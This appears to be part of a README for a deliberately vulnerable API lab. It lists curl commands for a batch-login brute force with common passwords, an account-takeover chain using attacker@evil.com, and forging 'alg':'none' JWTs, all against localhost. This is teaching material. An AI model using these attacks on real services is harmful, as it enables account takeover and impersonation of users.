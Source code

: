 #### Secure API (Best Practices)
```bash
python secure_api.py  
# Runs on http://localhost:5001
```

## 🎭 Attack Scenarios

### Scenario 1: GraphQL Batch Attack
Bypass rate limiting using GraphQL-style batch requests to perform rapid brute force attacks.

```bash
curl -X POST http://localhost:5000/batch_login \
  -H "Content-Type: application/json" \
  -d '[
    {"username":"victim","password":"password123"},
    {"username":"victim","password":"admin"},
    {"username":"victim","password":"123456"},
    {"username":"victim","password":"qwerty"}
  ]'
```

### Scenario 2: Account Takeover Chain
Exploit missing re-authentication to take over user accounts.

```bash
# 1. Get victim's token (through various means)
TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0..."

# 2. Change email without password confirmation
curl -X PUT http://localhost:5000/update_email \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"email":"attacker@evil.com"}'

# 3. Reset password using new email
curl -X POST http://localhost:5000/reset_password \
  -d '{"email":"attacker@evil.com","new_password":"hacked123"}'
```

### Scenario 3: JWT Manipulation
Exploit unsigned JWT tokens to impersonate users.

```bash
# Tokens use "alg":"none" - can be modified without signature
# Original: {"username":"user1"}
# Modified: {"username":"admin"}
```

## 🛡️ Security Implementations

The secure API demonstrates proper authentication controls:
